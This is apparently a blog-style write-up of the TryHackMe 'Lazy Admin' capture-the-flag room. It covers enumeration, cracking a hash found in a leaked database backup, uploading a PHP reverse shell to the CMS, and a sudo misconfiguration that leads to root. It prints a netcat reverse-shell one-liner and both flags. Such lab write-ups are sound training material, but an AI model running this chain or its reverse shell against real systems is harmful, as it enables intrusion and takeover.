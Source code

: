 ```yaml
---
title: 'THM Writeup - Lazy Admin'
description: 'THM Writeup - Lazy Admin'
date: 2025-01-02T21:03:00+01:00
tags: ['pentest','tryhackme','writeup']
image: './thm-lazy-admin.png'
authors: ['manfcg']
---
```


Room link: https://tryhackme.com/r/room/lazyadmin

I'll start everything by nmap scan, and on background I'll run gobuster

```bash
nmap -oN nmap.txt -Pn -T4 -sC -sV -p- 10.10.19.199 
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
```bash
gobuster dir -o gobuster.txt -u 10.10.19.199 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.19.199/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```

Going to the server address, we are shown the default apache site - so we won't find anything there

But in gobuster output I saw, that we have something in `/content/`

![](1.png)

This looks interesting, CMS that can be further scanned with gobuster

```bash
gobuster dir -o gobuster2.txt -u http://10.10.19.199/content/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.19.199/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.19.199/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.19.199/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.19.199/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.19.199/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.19.199/content/js/]
```

After browsing through it all for a while, I noticed that:
- `/content/as` leads to the login interface for this cms
- `/content/inc` contains some interesting files

And bingo, looking at `/content/inc` I found an interesting folder named `mysql_backup` which contains database. I'm downloading it because it may contain something interesting

I opened this file, and I found the user:
- named: `manager` 
- and his password: `42f749ade7f9e195bf475f37a44cafcb`

I decrypted this hash by pasting it on [crackstation](https://crackstation.net/) and it came up with a password of `Password123`

I'll try logging into ssh with these credentials
```
Permission denied, please try again.
```
well, it didn't let me in ;/

In this case, I'll enter the `/as` directory, which I found earlier

![](2.png)

After entering the manager's login and password, I was able to get on the CMS

By the way, I found something that may be of interest to get a reverse shell

![](3.png)

After a quick google on this, on exploitdb I found an interesting exploit that allows me to upload a reverse shell
https://www.exploit-db.com/exploits/40716

First, I prepared myself a file to upload by changing the port, ip and name to `shell.php5` (because it wouldn't upload with `.php` extension): https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

In the next terminal window, I immediately enabled netcat listening

Back to the previous terminal window, I did:
```bash
chmod +x exploit.py
```
```
python exploit.py
```
![](4.png)

I went to this link, and great, I got access to the shell

![](5.png)

I immediately did `python --version` and when I confirmed the existence of python on the server, I spawned a python shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

I also did a `cat /etc/passwd` to check for some interesting users

`itguy` caught my eye, I checked his home dir, and found the user flag
```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

After getting the user flag, I started looking for opportunities to escalate permissions from `www-data` to something more interesting. I started with the `sudo -l` command, which showed me something I was interested in
```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Doing `cat /home/itguy/backup.pl` I noticed that this file points to another file -> `/etc/copy.sh`
```bash
cat /home/itguy/backup.pl
```
```perl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

```

I also checked this file
```bash
cat /etc/copy.sh
```

Well, and it looks like it includes a reverse shell to help us get shell root

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

I slightly took the liberty of modifying it by changing the ip, I also fired up a new window in the terminal and enabled netcat listening

I returned to the reverse shell window and ran the `backup.pl` script via sudo

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

I went back to the listening window

![](6.png)

And success, now just do `cd /root` and obtainin the root flag using `cat root.txt`

```
THM{6637f41d0177b6f37cb20d775124699f}
```